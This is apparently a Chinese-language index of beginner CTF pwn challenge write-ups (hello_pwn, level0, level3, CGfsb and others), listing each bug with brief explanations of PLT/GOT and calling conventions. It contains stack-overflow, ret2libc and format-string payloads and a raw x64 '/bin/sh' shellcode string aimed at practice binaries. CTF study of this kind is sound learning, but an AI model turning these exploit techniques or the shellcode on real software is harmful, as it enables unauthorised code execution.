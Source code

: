 顺序：

get_shell
连上就可以得到shell，payload=‘’
简单介绍做pwn题的两种方法及peda安装方法

hello_pwn
两个buffer间的偏移溢出。输入与判断间相差4个字节payload = 'A' * 4 + p64(1853186401)
read(0,&unk_601068,0x10ull)
if(dword_60106C == 1853186401) sub_400686(0LL,&unk_601068)
大小端序，简单介绍做法和exp

level0
最简单的缓冲区溢出，read函数中栈的长度小于第三个参数payload='a'*0x88+p64(0x400596)
return read(0,&buf,0x200uLL)
int callsystem() {return system("/bin/sh")}
Linux下文件改名:mv
64位程序逆序中寄存器占8位，64位传参顺序rdi,rsi,rdx,rcx,r8,r9
system("/bin/sh")可以提供一个shell，使用它可以进行查看/修改/操作等动作
IDA中栈s与r的含义，ebp和eip
ELF直接获取函数地址：elf.symbols['callsystem']
exp最详细注释
ROPgadget的用法：获取字符串地址与返回值地址，objdump得到plt表的地址

level2
level0升级版，没有直接给出system("/bin/sh")函数，而是给出了system函数地址与/bin/sh字符串地址payload='a'*0x8C+p32(0x8048320)+'a'*4+p32(0x804A024)
return read(0,&buf,0x100u);
system填写的是plt表的地址，此外注意栈的结构：调用函数地址->函数的返回地址->参数n->参数n-1->···->参数1
题解
system函数地址可以是plt表中的也可以是.got.plt表中的
x32四种调用约定的参数各自放在不同的地方，x64会放在rdi,rsi,rdx,rcx,r8,r9六个寄存器里
调用函数时栈的结构为：调用函数地址->函数的返回地址->参数n->参数n-1->···->参数1

when_did_you_born
两个buffer间的偏移溢出，结果等于1926自动执行system("cat flag")语句，与hello_pwn题相同，不同点是脆弱点函数payload = 'a'*8+p64(1926)//v6在栈中是dd，因此用p64
gets(&v5)
if(v6==1926)
题解
checksec
file
./运行查看功能
写exp时字符前面加b，可转成bytes，避免报错。例如b'a'*(0x20-0x18)

guess_num
通过溢出，覆盖seed，生成我们自己的种子密钥，再用c编程实现该过程payload='a'*0x20+p64(1)	num=["2","5","4","2","6","2","5","1","4","2"] 	for i in range(10)://seed在栈中是dd类型
gets(&v11)
srand(seed[0])
题解
两种系统下生成的伪随机数不一样
官方解法：libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')	lib.srand(1)


int_overflow
输入1进入login函数，没问题，进入check_passwd函数，发现脆弱点函数strcpy(&dest, s);把s的值复制到dest，如果s的值够长，就能造出栈溢出。此外对于范围检查，使用整形溢出绕过payload = "a"*0x14+"a"*4+p32(0x804868b)+"a"*(256-0x18-4)+"a"*4
read(0, &buf, 0x199u);//sizeof(buf)>0x199，不存在溢出
if ( v3 <= 3u || v3 > 8u ){}//unsigned __int8 v3，如果v3=256，则溢出为1
else	result = strcpy(&dest, s);
题解
read函数不能当脆弱点原因
本题中payload构成


cgpwn2
危险函数gets(&s)可以溢出，name为全局变量，地址不变，利用该空间存放/bin/sh。system函数地址由plt表给出payload = "a"*0x26+"a"*0x4+p32(system)+"a"*4+p32(name)
fgets(name, 50, stdin);
return gets(&s);
题目流程
name位于bss区，可将字符串写入name变量

level3
危险函数read(0，&buf，0x100u)，栈长度大于0x100,溢出但没有system函数地址与/bin/sh字符串地址。需要got表查找。通过栈溢出，利用 write 函数将其本身在GOT表中的地址泄露出来，减去在 libc_32.so 中的偏移，得到基址，紧接着重新进入 main 函数，再次通过栈溢出，利用 system 函数完成get shell
payload = 'A'*0x88 + p32(0xdeadbeef) + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(0xdeadbeef)
payload0 = 'A'*0x88 + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)
read(0，&buf，0x100u)
write函数为0，1，2时的特殊用途（标准输入，标准输入，错误输出），系统定制，无须open
PLT（内部表），GOT（全局表），PLT表存放GOT表的地址，PLT表通过GOT表得到函数真实地址
本题思路：libc中的函数的相对地址是固定的，要想获取到system函数的地址，可以通过write()函数进行offset计算。
.plt与.got表描述：got表动态表，相当于实际偏移的指针。
plt表要么在 .got.plt 节中拿到地址，并跳转。要么当 .got.plt 没有所需地址的时，触发「链接器」去找到所需地址，并填充到.got.plt节中，并跳转，其是由代码片段组成的，每个代码片段都跳转到GOT表中的一个具体的函数调用（每个程序中该表都不会变化，因此是静态表，指针的指针）
.got.plt 中的值是 GOT 的一部分。它包含上述 PLT 表所需地址（已经找到的和需要去触发的）。相当于.plt的GOT全局偏移表，内容有两种情况：1）如果之前查找到该符号，内容为外部函数的具体地址，2）如果没查找过，内容为跳转会.plt的地址。（快速查找表）


CGfsb
if ( pwnme == 8 ){system("cat flag");}。在 printf 中，使用 *<a_number_of_chars>%<number>$n* 就可以将相应的第 *<number>* 个参数的位置写为 % 前输出的字符数量。而pwnme是.bss段的全局变量，地址不变。payload=p32(pwnme_addr)+'aaaa'+'%10$n'
printf((const char *)&v8);
题解
%n的用法
payload写法


string
进入main函数中，发现main函数调用sub_400D72()函数，进入该函数，发现该函数调用sub_400A7D()，sub_400BB9()和sub_400CA6()三个函数，第一个函数为输入east跳出循环。第二个函数中指令printf(&format,&format)存在格式化字符串漏洞，可以进行任意地址写。值得注意的是在他的上面有两个输入点，一个是“%ld”格式，一个是“%s”格式。第三个函数存在指令为((void(*fastcall *)(_QWORD,void *)v1)(0LL,v1)是将v1强制转化为函数指针类型，然后调用该函数。最后一个函数中的强制转换指令类型为脆弱点，该语句将V1一个void指针强制类型转换成函数指针并调用了，所以我们将shellcode通过上面的read写入就会得到shell。而执行该条指令的条件为*(DWORD *)a1 == *(DWORD*)(a1+4)，即a1[0]==a1[1]。回溯该变量，发现该变量为主函数中的v5，而v5=(__int64)v4。*v4=68,v4[1]=85，我们要做的就是将*v4=v4[1]，这里就需要利用第二个函数中的格式化字符串漏洞，从而将v4[0]的值改为85.
conn.sendlineafter('And, you wish is:', '%85c%7$n')	shellcode = '\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05'
printf(&format, &format);
((void (__fastcall *)(_QWORD, void *))v1)(0LL, v1);
在 printf 中，使用 *<a_number_of_chars>%<number>$n* 就可以将相应的第 *<number>* 个参数的位置写为 % 前输出的字符数量
x64的调用约定
题解







